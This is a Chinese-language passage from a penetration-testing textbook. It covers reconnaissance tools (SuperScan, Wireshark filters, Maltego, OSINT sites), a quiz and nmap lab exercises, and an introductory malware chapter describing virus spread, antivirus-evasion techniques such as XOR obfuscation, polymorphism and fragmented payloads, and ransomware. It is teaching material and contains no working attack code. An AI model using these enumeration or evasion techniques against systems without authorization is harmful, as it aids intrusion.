

图 4-10 Angry IP Scanner。



图 4-11 SuperScan。

如你所见，你可以选择域名或主机名，或 IP 地址范围，SuperScan 将扫描所选目标。同时请注意 Windows Enumeration 选项卡。你可以选择主机名或 IP 地址并枚举该机器具有哪些服务。你可以在图 4-12 中看到枚举结果。



图 4-12 SuperScan 枚举。

SuperScan 可以告诉你有关目标系统的很多信息。最值得注意的是，你可以看到该系统上运行的服务以及该系统上的用户。对于用户，SuperScan 会告诉你该用户登录了多少次，密码何时过期，上次更改时间以及用户上次登录时间。这些都是非常有用的信息。更重要的是，SuperScan 可以告诉你账户密码策略，例如锁定持续时间、锁定阈值和最大密码年龄。

SuperScan 还会提供目标计算机拥有的任何共享的信息，以及该系统上运行的所有服务。例如，了解目标系统是否正在运行远程桌面服务可能会很有用。

所有这些工具有一个共同点：它们为你提供有关目标机器或网络的信息。正如你在第 1 章和第 2 章中看到的那样，渗透测试始于信息收集。你可以使用刚才描述的工具，或者简单地在网上搜索“network enumeration”（和“port scanner”）并找到你喜欢使用的工具。一些渗透测试人员更喜欢图形用户界面，其他人则喜欢命令行界面。你可能还会发现某个工具具有你觉得有用的功能。因此，花时间调查端口扫描器和枚举工具，找到最适合你需求的工具。我个人喜欢同时使用多种工具进行端口扫描和枚举。

## Wireshark

该工具并不是真正的端口扫描器或网络枚举工具。它是最广为人知的网络数据包嗅探器之一。通常，渗透测试人员只需嗅探目标网络上的网络流量就能学到很多东西。Wireshark 为检查网络流量提供了便捷的 GUI。它是一个免费下载，你可以在 https://www.wireshark.org/ 获取。图 4-13 显示了主界面。



图 4-13 Wireshark 主界面。

我们在图 4-14 中看到一个突出显示的单个数据包。这使用户能够深入查看特定数据包的详细信息。



图 4-14 Wireshark 选择数据包。

显示过滤器（也称为后过滤器）仅过滤你所看到的视图。捕获中的所有数据包仍然存在于跟踪中。显示过滤器使用自己的格式，并且比捕获过滤器强大得多，如图 4-15 所示。



图 4-15 Wireshark 显示过滤器。

以下是一些显示过滤器示例：

```
ip.src==10.2.21.00/24
ip.addr==192.168.1.20 && ip.addr==192.168.1.30
tcp.port==80 || tcp.port==443
!(ip.addr==192.168.1.20 && ip.addr==192.168.1.30)
(ip.addr==192.168.1.20 && ip.addr==192.168.1.30) && (tcp.port==465|| tcp.port==139)
(ip.addr==192.168.1.20 && ip.addr==192.168.1.30) && (udp.port==80|| udp.port==443)
```

如果你右键单击一个数据包，可以选择跟随该特定的 TCP 或 UDP 流，这使得查看该特定对话中的数据包变得更容易，如图 4-16 和图 4-17 所示。



图 4-16 Wireshark 跟踪 TCP 流。



图 4-17 Wireshark 显示 TCP 流。

Wireshark 是一个非常通用的数据包嗅探器。本书的范围超出了让你成为 Wireshark 专家；然而，本章的材料应该为你提供一个坚实的基础介绍。你在本章前面看到了运行数据包嗅探器非常有用的具体实例。虽然肯定还有其他数据包嗅探器，但 Wireshark 是最广为人知的一种。Wireshark 网站提供了一些进一步学习的资料：

- Wireshark Wiki 页面：https://wiki.wireshark.org/
- Wireshark 视频和教程：https://www.wireshark.org/#learnWS

这些应该能让你对 Wireshark 有一个良好的工作知识。

## Maltego

Maltego 是一个开源情报和取证应用程序，提供非凡的数据挖掘和情报收集能力。有几个版本，你可以从 https://www.paterva.com/web7/downloads.php#tab-3 下载。社区版本是免费的。

结果以多种易于理解的视图很好地表示。借助其图形库，Maltego 识别数据集之间的关键关系并识别它们之间以前未知的关系。图 4-18 显示了 Maltego 的主屏幕。



图 4-18 Maltego。

Maltego 主要通过使用实体和转换来使用。你选择某个实体（电子邮件地址、网站、人员、电话号码等）并为该实体选择一个转换。一旦你选择了要绘制图形的内容，无论是人员、电子邮件地址、网站还是其他项目，该实体与其他实体之间的关系都会以图形显示，如图 4-19 所示。



图 4-19 Maltego 图形。

图 4-20 显示了开始新图形时的屏幕。只需选择 Share Graph，然后根据你选择的实体和转换创建新图形。



图 4-20 开始新的 Maltego 图形。

Maltego 比本章讨论的一些其他工具更复杂；然而，网络上有教程可以帮助你掌握此工具：

- https://www.paterva.com/web7/docs/documentation.php
- https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-maltego-do-network-reconnaissance-0158464/

## 其他 OSINT 工具

开源情报（OSINT）被攻击者和网络威胁分析人员使用。在上一节中讨论的 Maltego 是一款广泛使用的 OSINT 工具。在 OSINT 中使用的还有几种其他工具和资源，对于执行侦察的渗透测试人员来说也非常有价值。

## OSINT 网站

网站 http://osintframework.com 提供了一个简单的在线工具，可让你深入进行特定搜索。可以对电子邮件地址、域名、比特币交易和许多其他项目进行搜索。对于渗透测试人员来说，搜索目标域名将很有用，如图 4-21 所示。




图 4-21 OSINT 框架。

在图 4-21 中，最后一个部分是一个可以查找各种网站已披露漏洞的网站。此工具在对目标网络进行侦察时可以成为宝贵的资产。

## Alexa

网站 http://www.alexa.com 提供有关网站的信息，包括受欢迎程度、访客数量以及被搜索的频率。这可以让你了解一个网站的暴露程度。访问量越大的网站越有可能受到攻击。

## Web Master Tips

网站 http://www.wmtips.com 与 Alexa 类似，但汇总了来自多个来源的数据。这可以让你更清楚地了解目标网站的暴露程度，从而帮助估计网络攻击的可能性。它还会为你提供有关网站的信息，例如 IP、WhoIS 以及该域的 DNS 服务器。

## 摘要

在本章中，你学习了如何对目标网络进行侦察。第一步是被动侦察，包括使用各种基于网络的工具以及搜索社交媒体。然后你学习了如何进行主动侦察，使用端口扫描器、枚举工具和数据包嗅探器。最后，你学习了一些基本的网络威胁情报，使用广泛接受的工具。在进入下一章之前，务必练习本章介绍的每种技术和工具。掌握侦察是学习渗透测试的重要一步。

## 测试你的技能

### 多项选择题

- 1. 你执行 FIN 扫描且没有收到响应。这表明什么？
- A. 端口已关闭。
- B. 端口是开放的。
- C. 主机不可达。
- D. 端口不可达。
- 2. 你扫描目标网络并发现端口 445 是开放且活跃的。这说明了什么？
- A. 系统使用 Linux。
- B. 系统使用 Novell。
- C. 系统使用 Windows。
- D. 系统有一个入侵检测系统。
- 3. 使用 nmap，T0 标志意味着什么？
- A. TCP 扫描
- B. 无 TCP 扫描
- C. 最慢速度
- D. 最快速度
- 4. 使用 Google，如何在 xyz.com 搜索 PDF 格式的事件响应策略？
- A. incident response policies filetype:pdf site:xyz.com
- B. incident response policies format:pdf site:xyz.com
- C. incident response policies file:pdf site:xyz.com
- D. pdf in site:xyz.com
- 5. 使用 Shodan，如何在 xyz.com 扫描默认密码？
- A. pwd default hostname:xyz.com
- B. default password in xyz.com
- C. default pwd in xyz.com
- D. default password hostname:xyz.com
- 6. 你正在对 somecompany.com 进行侦察。你访问 somecompany.com 网站查找联系信息和电话号码，但没有找到。你知道该公司 6 个月前在其网站上列出了整个员工目录，但现在没有了。你将如何检索网站上过时的信息？
- A. 访问 Google 搜索引擎并查看缓存副本
- B. 访问 Archive.org 网站以检索 somecompany.com 网站的互联网档案
- C. 爬取整个网站并将其存储到你的计算机中
- D. 访问公司的合作伙伴和客户网站获取此信息
- 7. Wireshark 过滤器 !(ip.addr==192.168.1.20 && ip.addr==192.168.1.30) 会做什么？
- A. 仅显示 IP 地址 192.168.1.20 和 192.168.1.30
- B. 显示除 IP 地址 192.168.1.20 和 192.168.1.30 之外的所有内容
- C. 跟踪到 IP 地址 192.168.1.20 和 192.168.1.30 的流量
- D. 显示到 IP 地址 192.168.1.20 和 192.168.1.30 且未加密的流量

## 项目

这些项目中的每一个都旨在让你入门特定技术或工具。在完成指定项目后，欢迎尝试更多变体。

### 项目 1

在练习网站上使用本章学到的所有被动扫描方法。你可以使用自己组织的网站，或者，如果你愿意，可以使用作者的网站 www.ChuckEasttom.com。你至少应执行以下操作：

- 1. 在 Archive.org 中检查该网站。
- 2. 使用 netcraft.com 检查该网站。
- 3. 使用 SuperScan 对该网站进行端口扫描。
- 4. 通过 Maltego 运行该域名。

### 项目 2

在你的计算机上运行 Wireshark。在运行期间，打开几个网页、检查电子邮件等。当你至少有 2,000 个数据包时，停止数据包捕获。然后至少执行以下任务：

- 1. 选择一个特定数据包并跟踪其 UDP 或 TCP 会话。
- 2. 选择一个特定数据包并查看 TCP、Ethernet 和 IP 头部。
- 3. 使用至少一个视图过滤器。

### 项目 3

使用 nmap 对计算机进行端口扫描。虽然端口扫描不违法，但应选择你有权限扫描的实验室计算机。你可以使用命令行 nmap 或 GUI Zenmap。至少使用以下标志：

- 1. 将时序设置为 T5，然后使用时序 T1 重复。
- 2. 尝试 **-sO** 协议扫描。
- 3. 尝试 **-sW** Windows 扫描。
- 4. 尝试以下每项：
  - a. **nmap -sS** *targetsite*
  - b. **nmap -sO** *targetsite*
  - c. **nmap -sO -sS -oX -T4** *targetsite*

## 恶意软件

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 了解恶意软件的类型
- 了解恶意软件创建方法
- 了解恶意软件如何在渗透测试中使用

恶意软件是任何网络最常见的威胁之一。显而易见的是，任何渗透测试人员都需要了解恶意软件才能对抗它。然而在本章中，我们将超越仅仅理解恶意软件，讨论实际创建恶意软件的基础。这对一些读者来说可能有点奇怪。有两个非常好的原因。

学习如何实际创建恶意软件的第一个原因是让你对恶意软件的用途有深入的了解。如果你了解可以做什么、不能做什么，以及恶意软件如何传播，你将更好地准备对抗恶意软件。

第二个原因是一些良性病毒可用于渗透测试。我们将在本章中看到这一点。

然而，你应该意识到，本章的材料不应掉以轻心。创建恶意软件很危险。恶意软件可能意外传播。因此，创建恶意软件应始终在隔离的、非联网的计算机或虚拟机上进行。

### 病毒

根据定义，计算机病毒是一种自我复制的程序。通常，病毒还具有其他不愉快的功能，但自我复制和快速传播是病毒的标志。经常这种增长本身就可以成为受感染网络的问题。任何快速传播的病毒都可能降低网络的功能和响应能力。仅仅通过超过网络设计承载的流量负载，网络可能暂时无法使用。臭名昭著的 I Love You 病毒实际上没有负面载荷，但它产生的电子邮件庞大数量使许多网络不堪重负。

### 病毒如何传播

病毒通常主要通过两种方式传播。第一种是通过电子邮件附件，第二种是简单地将感染文件上传到文件共享站点，或许是 Web 服务器。后一种方法除了上传之外没有特定的传递机制。第一种方法通常涉及一点编程。

通过电子邮件发送病毒仍然很常见。可以使用任何电子邮件客户端发送病毒，但当电子邮件客户端是 Microsoft Outlook 时尤其容易。原因不在于 Outlook 的安全缺陷，而在于使用 Outlook 的便捷性。所有 Microsoft Office 产品都设计成使合法程序员可以访问应用程序的许多内部对象，从而轻松创建集成 Microsoft Office 套件中应用程序的应用程序。例如，程序员可以编写一个应用程序来访问 Word 文档，导入 Excel 电子表格，然后使用 Outlook 自动将 resulting 文档通过电子邮件发送给感兴趣的各方。Microsoft 在使这一过程变得非常容易方面做得很好，因为通常只需最少的编程即可完成这些任务。使用 Outlook，引用 Outlook 并发送电子邮件的代码少于五行。这意味着程序可以 literally 导致 Outlook 本身发送电子邮件，而用户并不知情。互联网上有许多代码示例显示了如何做到这一点，免费获取。因此，并不需要非常熟练的程序员就能访问你的 Outlook 地址簿并自动发送电子邮件。基本上，Outlook 编程的便捷性就是为什么有这么多病毒攻击针对 Outlook。

虽然绝大多数病毒攻击通过附着在受害者现有的电子邮件软件上传播，但一些最近的病毒爆发使用了其他传播方法，例如它们自己的内部电子邮件引擎。另一种病毒传播方法是简单地在网络上复制自身。经由多条路线传播的病毒爆发变得越来越常见。

传递载荷的方法可能相当简单，更依赖于最终用户的疏忽而不是病毒编写者的技能。诱使用户访问他们不应该访问的网站或打开文件是传递病毒的常见方法，而且完全不需要编程技能。无论病毒如何到达你的门口，一旦它进入你的系统，它将尝试传播，并且在许多情况下还会尝试对你的系统造成一些损害。一旦病毒进入你的系统，它可以做任何合法程序可以做的事情。这意味着它可能删除文件、更改系统设置或造成其他损害。

虽然将感染文件上传到 Web 服务器/文件共享服务器和电子邮件附件是最常见的两种方法，但病毒传播还有其他方法。


其中一些是对前述方法的改进。你可以在图 5-1 中看到这些病毒传播方法的列表。



图 5-1 病毒传播方法。

通过即时通讯应用程序发送病毒与将其作为电子邮件附件发送非常相似。使用可移动介质、不可信网站和下载本质上都是将病毒上传到文件共享网站的变体。特洛伊木马是一种有趣的方法。它涉及将病毒附加到某个良性程序上，从而欺骗用户自行安装。我们将在本章后面看到更多关于特洛伊木马的内容，包括如何创建一个。

## 病毒类型

病毒的类型有很多。在本节中，我们将简要介绍一些主要的病毒类型。病毒可以根据其传播方式或在目标计算机上的活动进行分类。还必须指出的是，不同专家对病毒的分组方式略有差异。本节介绍的分类法相当常见，我认为它非常有用。这是多年来我发展起来的分类法。

### 宏病毒

宏病毒感染办公文档中的宏。许多办公产品，包括 Microsoft Office，允许用户编写称为宏的迷你程序。这些宏也可以被写成病毒。宏病毒被写入某个业务应用程序中的宏。例如，Microsoft Office 允许用户编写宏来自动化某些任务。Microsoft Outlook 设计为程序员可以使用 Visual Basic 编程语言的一个子集，即 Visual Basic for Applications（VBA）编写脚本。事实上，这种脚本语言内置于所有 Microsoft Office 产品中。程序员也可以使用密切相关的 VBScript 语言。这两种语言都很容易学习。如果这样的脚本附加到电子邮件中，并且收件人使用 Outlook，则脚本可以执行。该执行可以做任何事情，包括扫描地址簿、查找地址、发送电子邮件、删除电子邮件等等。

### 启动扇区

启动扇区病毒不会感染目标计算机的操作系统，而是攻击驱动器的启动扇区。这使得它们更难用传统的防病毒软件检测和清除。这种软件安装在操作系统中，在一定程度上仅在操作系统的上下文中运行。通过在操作系统之外运行，启动扇区病毒更难检测和清除。复合病毒以多种方式攻击计算机，例如感染硬盘的启动扇区和操作系统中的一个或多个文件。

### 隐蔽

隐蔽病毒是病毒中最大的群体之一。此类别包括使用一种或多种技术隐藏自己的任何病毒。换句话说，这些是试图避免你的防病毒软件的病毒。常见隐蔽技术的列表显示在图 5-2 中。



图 5-2 隐蔽病毒类型。

XOR 是基本二进制数学运算，异或。一些病毒会用某个随机数对它们的二进制文件进行 XOR 运算。这使得病毒暂时无法使用，但也使其不再匹配已知的病毒特征。当准备释放病毒时，它只需再次进行 XOR 运算即可恢复原状。显然，这需要一个执行 XOR 操作的辅助模块。然而，由于该模块的任务仅限于此，它不太可能触发防病毒软件。

与 XOR 相关的是加密病毒，它们使用辅助模块来加密病毒，然后在准备使用时解密。

特洛伊木马是隐藏病毒的极佳方式。通过将其绑定到合法程序，不仅会欺骗用户安装它，还可能逃避防病毒软件。

多态病毒会不时地改变其形式以避免被防病毒软件检测到。这种更高级的形式称为变态病毒；它可以完全改变自身。这也需要一个辅助模块来执行重写。

稀疏感染病毒试图通过仅间歇性地执行其恶意活动来逃避检测。使用稀疏感染病毒，用户会看到症状持续一段时间，然后一段时间没有症状。在某些情况下，稀疏感染病毒针对特定程序，但病毒仅在目标程序执行第 10 次或第 20 次时执行。或者稀疏感染病毒可能有一段活跃期，然后在一段时间内处于休眠状态。对主题有许多变体，但基本原则相同：减少攻击频率，从而降低被检测的机会。

碎片化载荷是一种相当复杂的隐藏病毒的方法。病毒被拆分为模块。加载模块相当无害，不太可能触发任何防病毒软件。它随后会分别下载其他片段。当所有片段都存在时，加载器会将它们组装起来并释放病毒。

### 勒索软件

在现代，很难讨论恶意软件而不讨论勒索软件。事实上，当我撰写本文时，在过去 48 小时内，世界遭受了一次大规模的勒索软件攻击。它开始攻击英格兰和苏格兰的医疗系统，并传播到更远的地方。虽然许多人是在 2013 年 CryptoLocker 出现后才开始讨论勒索软件的，但勒索软件的历史比那要长得多。第一个已知的勒索软件是 1989 年的 PC Cyborg Trojan，它仅使用弱对称密码加密文件名。

通常，勒索软件作为蠕虫工作，然后禁用系统服务或加密用户文件。然后它要求赎金以释放这些文件/服务。术语蠕虫过去与病毒的含义不同，尽管今天这两个术语经常互换使用。蠕虫本质上是一种传播更迅速的病毒。

勒索软件有两大类，如图 5-3 所示。



图 5-3 勒索软件类型。

2016 年 8 月 7 日，首个针对智能恒温器的勒索软件被报道（http://motherboard.vice.com/read/internet-of-things-ransomware-smart-thermostat）。在这种情况下，幸运的是，这不是在野外发现的勒索软件，而是两位安全研究人员为说明智能家居技术中的缺陷而创建的。他们在拉斯维加斯举行的著名 DEF CON 大会上展示了他们的概念验证。

这说明了一个重要观点。恶意软件研究是一个重要且非常合法的研究领域。在野外发现之前发现新型恶意软件并为其制定应对措施，是网络安全中的关键一步。

在撰写本章期间，WannaCry 勒索软件爆发在全球蔓延。这种勒索软件依赖于计算机存在未修补的漏洞。这说明了基本补丁管理和漏洞扫描的必要性。如果每个人都有良好的补丁管理，WannaCry 造成的损害将非常小。图 5-4 显示了 WannaCry 病毒的图像。



图 5-4 WannaCry。

### 工业病毒

工业病毒针对诸如监控控制和数据采集（SCADA）系统等系统，这些系统用于制造、水净化、发电厂和其他工业系统。NIST 800-82 是研究 SCADA 安全的良好起点。特殊出版物 800-82，第 2 版，“工业控制系统（ICS）安全指南”，专门针对工业控制系统。工业系统包括 SCADA 系统和 PLC（可编程逻辑控制器）。该文件首先详细检查了这些系统的威胁。然后标准讨论了如何为此类系统制定全面的安全计划。

2010 年，发现了 Stuxnet 病毒。它旨在攻击可编程逻辑控制器，特别是伊朗用于提炼铀的系统中的控制器。人们普遍推测美国政府和/或以色列在攻击背后。

### 硬件特洛伊木马

硬件特洛伊木马是对集成电路中固件的更改。鉴于芯片制造的广泛外包，这样的特洛伊木马可能存在于任何集成电路中。到目前为止，在野外发现的此类特洛伊木马实例很少。但这仅仅意味着它们尚未被检测到。这是有逻辑的，因为创建硬件特洛伊木马既困难，检测它也困难。由于它在芯片中，传统的反恶意软件方法将不起作用。

检测硬件特洛伊木马相当困难。存在用于测试单个芯片的既定方法。例如，破坏性措施如逆向工程芯片可用于检测特洛伊木马；然而，这些方法非常昂贵，需要电子显微镜等复杂设备。更常见的方法涉及比较时延和功率波动；然而，这些方法依赖于“黄金芯片”参考来与测试芯片进行比较。不总是可能拥有经过验证的芯片进行测试。

如前所述，虽然硬件特洛伊木马相当罕见，一些来源声称在“野外”从未发现过，但这并不完全准确。一些已被发现，但确认发现是困难的。受感染的系统往往是机密系统，可用信息有限。

从渗透测试或安全审计的角度来看，硬件特洛伊木马是一个单独的问题，应该进行单独审计。大多数渗透测试人员没有执行硬件特洛伊木马测试的技能集，大多数网络不需要对硬件特洛伊木马进行测试。因此，这些应从范围内排除。

### 病毒示例

病毒攻击的威胁不言而喻。虽然有很多网页提供病毒信息，但在我看来，只有少数几个网页 consistently 提供最新、最可靠、最详细的病毒爆发信息。任何安全专业人员都希望查阅

定期查看这些网站。您可以在以下网站了解有关任何病毒（过去或当前）的更多信息：

- http://www.pctools.com/security-news/top-10-computer-viruses/
- https://www.us-cert.gov/publications/virus-basics
